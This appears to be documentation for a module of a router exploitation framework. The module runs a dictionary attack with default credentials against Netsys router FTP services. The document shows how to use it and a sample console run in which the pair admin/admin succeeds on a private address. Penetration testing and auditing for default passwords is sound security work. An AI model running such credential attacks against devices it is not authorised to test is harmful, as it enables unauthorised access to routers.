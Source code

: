 ## Description

Module performs dictionary attack with default credentials against Netsys Router FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/routers/netsys/ftp_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/netsys/ftp_default_creds
rsf (Netsys Router Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Netsys Router Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
